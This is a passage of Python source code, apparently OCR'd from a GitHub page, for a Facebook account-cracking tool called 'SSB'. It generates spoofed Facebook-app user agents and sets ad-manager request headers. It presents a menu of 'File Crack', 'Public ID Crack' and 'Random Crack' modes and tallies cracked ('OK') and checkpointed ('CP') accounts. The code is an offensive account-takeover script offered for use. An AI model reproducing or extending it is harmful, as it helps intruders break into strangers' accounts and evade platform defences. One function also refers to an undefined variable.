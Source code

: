     END = '[FBAN/FB4A;FBAV/374.0.0.20.109;FBBV/381462200;FBDM/{density=2.0,width=720,height=1456};FBLC/en_US;FBRV/382083935;FBCR/1010;FBMF/Green;FBBD/Green;FBPN/com.facebook.katana;FBDV/GREEN 2020;FBSV/11;FBOP/1;FBCA/arm64-v8a:;]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; {random.choice(model2)} Build/QP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

def randBuildvsskj():
    END = '[FBAN/EMA;FBBV/352223683;FBAV/291.0.0.12.110;FBDV/SM-G935FD;FBLC/en_GB;FBNG/WIFI;FBMNT/NOT_METERED;FBDM/{density=1.0125}]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; {random.choice(model2)} Build/QP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

sys.stdout.write('\x1b]2; SSB\x07')
S = '\033[1;37m'
A = '\x1b[38;5;208m'
R = '\x1b[38;5;46m'
F = '\x1b[38;5;48m'
Z = '\033[1;33m'
head = {'Host': 'adsmanager.facebook.com', 'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"', 'viewport-width': '980'}
logo =                                          """            
\033[1;37m    ######      ######     ########  
\033[1;37m   ##    ##    ##    ##    ##     ## 
\033[1;37m   ##          ##          ##     ## 
\033[1;37m    ######      ######     ########  
\033[1;37m         ##          ##    ##     ## 
\033[1;37m   ##    ##    ##    ##    ##     ## 
\033[1;37m    ######      ######     ########  
\033[1;37m------------------------------------------------
\033[1;37m Owner   :            Muhammad Sarfraz
\033[1;37m Facebook:            Muhammad Sarfraz
\033[1;37m Github  :            Sarfraz-Ssb
\033[1;37m Version :            19.8
\033[1;37m------------------------------------------------ """
def clear():
    os.system("clear")
    print(logo)    
    
def result(OKs,cps):
    if len(OKs) != 0 or len(cps) != 0:
        print('\n')
        print(47*'-')
        print(' The Process has been Complete...')
        print(' TOTAL OK: %s' % str(len(oks)))
        print(' TOTAL CP: %s' % str(len(cps)))
        print(47*'-')
        input("Press enter to back SSB Menu ")
        exit()

def sarfraz():   
    os.system('clear')
    print(logo)
    print(f'[1] File Crack')
    print(f'[2] Public ID Crack')
    print(f'[3] Random Crack ')
    print(f'[4] Create File')
    print(f'[5] Login Tool')
    print(f'[6] Logout Cookie')
    print(f'[7] Remove Trash Files ')
    print(f'[8] Separate Ids')
    print(f'[9] Remove Duplicate IDs')
    print(f'[W] Join Whatsapp Group ')
    print(f'[F] Join Facebook Group ')